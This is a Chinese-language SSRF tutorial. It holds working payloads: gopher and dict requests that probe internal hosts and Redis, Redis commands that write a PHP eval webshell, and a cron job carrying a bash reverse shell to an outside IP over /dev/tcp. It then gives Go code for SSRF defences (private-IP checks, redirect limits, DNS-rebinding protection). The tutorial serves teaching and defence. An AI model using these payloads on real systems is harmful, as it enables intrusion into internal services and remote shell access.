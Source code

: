 ## 0x01 SSRF漏洞原理

### 1.1 简介	

​	SSRF（Server-Side Request Forgery：服务端请求伪造）是一种由攻击者构造形成，由服务端发起请求的一个安全漏洞。攻击者在未能获取服务器权限时，利用存在缺陷的应用作为代理远程攻击内网的服务器。

## 0x02 SSRF漏洞场景

### 2.1 信息收集

#### 2.1.1 web请求

```
curl gopher://192.168.100.1:80/_GET%20%2F%20HTTP%2F1.1%0D%0AHost%3A%20192.168.100.1%0D%0AAccept-Encoding%3A%20gzip%2C%20deflate%0D%0AConnection%3A%20close%0D%0A%0D%0A
```
#### 2.1.2 端口探测

```
curl "dict://172.34.178.16:22/"
```
### 2.2 Redis漏洞

#### 2.2.1 Redis命令

- Redis秘钥

```
curl "dict://127.0.0.1:6379/auth:''"
```

- Redis键值

```
curl "dict://127.0.0.1:6379/set:flag:123"
curl "dict://127.0.0.1:6379/keys:*"
curl "dict://127.0.0.1:6379/get:flag"
```
#### 2.2.2 Getshell操作

- 直接写webshell

```
dict://127.0.0.1:6379/flushall
dict://127.0.0.1:6379/set:x:'<script:language="php">@eval($_GET["chaos"]);</script>'
dict://127.0.0.1:6379/config:set:dir:/var/www/html/
dict://127.0.0.1:6379/config:set:dbfilename:test.php
dict://127.0.0.1:6379/save
```


- 主从复制写webshell

```
192.168.8.185:6379> set x '<?php eval($_GET["chaos"]);?>'
dict://127.0.0.1:6379/slaveof:192.168.8.185:6379    # 设置主从模式
dict://127.0.0.1:6379/get:x
dict://127.0.0.1:6379/config:set:dir:/var/www/html/
dict://127.0.0.1:6379/config:set:dbfilename:test.php
dict://127.0.0.1:6379/save
dict://127.0.0.1:6379/slaveof:no:one

dict://127.0.0.1:6379/flushall
dict://127.0.0.1:6379/set:x:'%5Cn%5Cn*%2F1%20*%20*%20*%20*%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.33.6.150%2F9999%200%3E%261%5Cn%5Cn'
dict://127.0.0.1:6379/config:set:dir:/var/spool/cron/
dict://127.0.0.1:6379/config:set:dbfilename:root
dict://127.0.0.1:6379/save
```

## 0x03 SSRF漏洞修复

### 3.1 去除url中的特殊字符

​	防止url解析差异绕过

### 3.2 域名内网IP过滤

#### 3.2.1 内网IP判断

```
// IsLocalIP 判断是否是内网ip
func IsLocalIP(ip net.IP) bool {
    if ip == nil {
        return false
    }
    // 判断是否是回环地址, ipv4时是127.0.0.1；ipv6时是::1
    if ip.IsLoopback() {
        return true
    }
    // 判断ipv4是否是内网
    if ip4 := ip.To4(); ip4 != nil {
        return ip4[0] == 10 || // 10.0.0.0/8
            (ip4[0] == 172 && ip4[1] >= 16 && ip4[1] <= 31) || // 172.16.0.0/12
            (ip4[0] == 192 && ip4[1] == 168) // 192.168.0.0/16
    }
    // 判断ipv6是否是内网
    if ip16 := ip.To16(); ip16 != nil {
        // 参考 https://tools.ietf.org/html/rfc4193#section-3
        // 参考 https://en.wikipedia.org/wiki/Private_network#Private_IPv6_addresses
        // 判断ipv6唯一本地地址
        return 0xfd == ip16[0]
    }
    // 不是ip直接返回false
    return false
}
```

#### 3.2.2 dns解析ip

```
site := "http://www.test.com"
ourl, err := url.Parse(site)
if err != nil{
	return false
}
ip, err := net.LookupIP(ourl.Hostname())	// dns解析IP
if err != nil{
	return false
}
```

### 3.3 不要使用URL跳转

​	检查是否为内网资源是在请求之前发起的，如果攻击者在请求过程中通过URL跳转访问内网则可以绕过第一种防御策略。

```
client := &http.Client{
    CheckRedirect: func(req *http.Request, via []*http.Request) error {
        // 跳转超过10次，也拒绝继续跳转
        if len(via) >= 10 {
            return fmt.Errorf("redirect too much")
        }
        statusCode := req.Response.StatusCode
        if statusCode == 307 || statusCode == 308 {
            // 拒绝307和308跳转访问(此类跳转可以时POST请求，风险极高)
            return fmt.Errorf("unsupport redirect method")
        }
        // 判断ip
        ips, err := net.LookupIP(req.URL.Host)
        if err != nil {
            return err
        }
        for _, ip := range ips {
            if IsLocalIP(ip) {
                return fmt.Errorf("have local ip")
            }
            fmt.Printf("%s -> %s is localip?: %v\n", req.URL, ip.String(), IsLocalIP(ip))
        }
        return nil
    },
}
```

### 3.4 将域名转换成IP访问

​	发起一次HTTP请求需要先请求DNS服务获取域名对应的IP地址，如果攻击者有可控的DNS服务，就可以通过DNS重绑定绕过前面的防御策略。

```
dialer := &net.Dialer{}
dialer.Control = func(network, address string, c syscall.RawConn) error {
    // address 已经是ip:port的格式
    host, _, err := net.SplitHostPort(address)
    if err != nil {
        return err
    }
    fmt.Printf("%v is localip?: %v\n", address, IsLocalIP(net.ParseIP(host)))
    return nil
}
transport := http.DefaultTransport.(*http.Transport).Clone()
// 使用官方库的实现创建TCP连接
transport.DialContext = dialer.DialContext
// 使用此client请求，可避免DNS重绑定风险
client := &http.Client{
    Transport: transport,
}
```



